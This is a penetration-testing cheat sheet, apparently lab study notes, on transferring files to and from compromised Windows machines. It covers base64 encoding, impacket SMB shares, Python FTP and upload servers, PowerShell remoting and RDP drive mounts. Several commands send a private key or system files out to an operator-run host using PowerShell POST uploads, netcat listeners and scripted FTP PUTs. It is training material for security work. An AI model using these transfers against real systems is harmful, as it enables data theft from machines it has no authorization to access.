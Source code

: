 ```yaml
---
title: Windows File Transfer
category: Access
tags: [download, upload, wget, curl, rdp, powershell]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
---
```


# Windows File Transfer

## Download Operations

### PowerShell Base64 Encode & Decode

Windows Command Line utility (cmd.exe) has a maximum string length of  8,191 characters. Also, a web shell may error if you attempt to send  extremely large strings. 

**Encoding**

```bash
# Get file hash
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

# Encode
cat id_rsa |base64 -w 0;echo
LS0tLS1CR ---SNIP--- tLS0tLQo=
```

**Decoding**

```powershell
# Decode
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CR ---SNIP--- tLS0tLQo="))

# Check and match hash
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278
```

---

### SMB Downloads

**Create share with impacket:**

`sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

**Mount the share:**

`net use n: \\192.168.1.10\share /user:test test`

---

### Python FTP Server

**Start server:**

`sudo python3 -m pyftpdlib --port 21`

**Grab file:**

`(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

---

## Upload Operations

### PowerShell Base64 Encode & Decode

**Encode File Using PowerShell:**

```powershell
# Encode file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3B5cm ---SNIP--- YWxob3N0DQo=
# Get file hash
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```

**Decode Base64 String in Linux:**

```bash
# Decode file
echo IyBDb3B5cm ---SNIP--- YWxob3N0DQo= | base64 -d > hosts

# Check and match hash
md5sum hosts 

3688374325b992def12793500307566d  hosts
```

---

### PowerShell Web Uploads Base64

**Start the server:**

`python3 -m uploadserver`

**Upload file:**

```powershell
# Encode | Send
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://192.168.1.10:8000/ -Method POST -Body $b64

# Catch with netcat and decode
nc -lvnp 8000

<base64> | base64 -d -w 0 > hosts
```

---

### Python FTP Uploads

**Start the server:**

`sudo python3 -m pyftpdlib --port 21 --write`

**PowerShell Upload:**

`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

**Create a Command File for the FTP Client to Upload a File**

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.1.10

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

## Misc

### PowerShell Session File Transfer

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**          

```powershell
whoami
htb\administrator

hostname
DC01

Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**

`$Session = New-PSSession -ComputerName DATABASE01`

**Copy samplefile.txt from our Localhost to the DATABASE01 Session** 

`Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

`Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

------

### RDP

Connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

**Mounting a Linux Folder Using rdesktop**

`rdesktop 192.168.1.10 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files`

**Mounting a Linux Folder Using xfreerdp**

`xfreerdp3 /v:192.168.1.10 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
